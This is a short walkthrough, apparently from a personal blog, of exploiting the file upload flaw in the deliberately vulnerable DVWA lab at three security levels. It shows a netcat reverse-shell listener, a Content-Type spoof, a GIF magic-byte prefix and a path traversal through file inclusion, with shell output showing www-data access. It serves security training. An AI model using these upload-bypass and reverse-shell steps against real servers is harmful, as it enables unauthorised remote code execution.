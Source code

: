 ```yaml
---
title: "File Upload - DVWA"
description: ""
summary: "Exploit the file upload vulnerability to achieve Remote Code Execution (RCE)."
date: 2022-08-17
draft: false
tags: ["writeups", "challenge", "DVWA", "File Upload"]
---
```


### **Security level: low**

Create PHP reverse shell file `rev.php`.

Refference: https://www.revshells.com/

Listing IP: `192.168.170.131` port: `9001`

netcat listener command: `nc -lvnp 9001`

upload the file `rev.php` and visit the url : `http://192.168.170.131/hackable/uploads/rev.php`

and you have reverse shell:

Output:

```Shell
┌─[✗]─[aftab@parrot]─[~/Downloads/dvwa]
└──╼ $nc -lvnp 9001
listening on [any] 9001 ...
connect to [192.168.170.131] from (UNKNOWN) [172.17.0.2] 54022
SOCKET: Shell has connected! PID: 331
whoami
www-data
uname
Linux
```


### **Security level: medium**

This time it is blocking php file we can bypass that by changing:

`Content-Type: application/x-php`  ==>   `Content-Type: image/png`

we can also do that from browser go to inspect element ,Network tab resubmit the request so it show up on network tab select that upload request right click and Edit and Resend:

<img width="407" alt="image" src="https://user-images.githubusercontent.com/79740895/185420346-ab0c9387-7cc6-4402-9376-b3611f35df46.png">

make changes and hit send button,visit the url and you have reverse shell.


### **Security level: high**


Changing Content-Type is not working maybe server is verifying the file header signature.

add `GIF98;` at the start of our exploit file and rename it with `rev.php.png`.

but whene we visit it directly it is not working so we use file inclusion:

url: `http://192.168.170.131/vulnerabilities/fi/?page=file/../../../hackable/uploads/rev.php.png`     <- security high

and we have reverse shell on our netcat listener.

Happy Hacking
